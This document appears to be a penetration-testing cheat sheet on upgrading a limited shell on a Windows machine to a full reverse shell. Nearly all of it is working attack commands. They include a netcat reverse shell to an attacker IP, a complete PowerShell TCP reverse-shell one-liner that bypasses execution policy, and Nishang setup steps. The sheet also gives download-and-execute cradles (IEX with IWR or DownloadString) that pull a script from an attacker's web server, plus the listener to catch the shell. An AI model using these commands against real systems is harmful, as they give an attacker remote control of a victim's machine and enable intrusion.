 You might find that you are connected with a limited shell such as a Web shell, netcat shell or Telnet connection that simply is not cutting it for you. Here are a few oneliners you can use to upgrade your shell:

#### Netcat Reverseshell Oneliners for Windows

- Sometimes it is helpful to create a new Netcat session from an existed limited shell, webshell or unstable (short lived) remote shell. If you have transfered the shell to victim box, execute: `nc.exe 10.10.14.23 9001 -e powershell`

#### Upgrade Windows Command Line with a Powershell One-liner Reverse Shell

- You can run this oneliner from the remote Windows command prompt to skip the file upload step entirely (again be sure to update the IP and port):
  - `CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"10.10.10.10\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"`

#### Upgrade Shell with PowerShell Nishang

Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security and post exploitation during Penetraion Tests. The scripts are written on the basis of requirement by the author during real Penetration Tests:
**For this to work, you should have an exploit that can run remote command execution**

    ```bash
    root@kali:~/test# git clone https://github.com/samratashok/nishang.git                                                  
    Cloning into 'nishang'...
    remote: Enumerating objects: 1612, done.
    remote: Total 1612 (delta 0), reused 0 (delta 0), pack-reused 1612
    Receiving objects: 100% (1612/1612), 5.87 MiB | 6.62 MiB/s, done.
    Resolving deltas: 100% (1010/1010), done.
    root@kali:~/test# cd nishang/
    root@kali:~/test/nishang# cd Shells/
    root@kali:~/test/nishang/Shells# echo Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444 >> Invoke-PowerShellTcp.ps1
    root@kali:~/test/nishang/Shells# python -m SimpleHTTPServer 80
    ```

  - You can install nishang via `sudo apt-get install nishang` which installs all of the reverseshells within `/user/share/nishang/shells/` to be used for purpose of reverse shells.
      `cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 rev.ps1`
  - After copying the script to your local working folder, copy one of the suitable example lines in the **rev.ps1** to the bottom of the file:
      `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 9001`
  - Start a web server via python
      `python3 -m http.server 80`
  - And within your RCE, put this as:
    - `powershell.exe -command IEX( IWR http://10.10.14.19:80/rev.ps1 -UseBasicParsing)`
      or
    - `powershell.exe -command IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.19:80/rev.ps1')`
  - You have to remember to run the handler to catch the shell:
    - `nc -nvlp 9001`
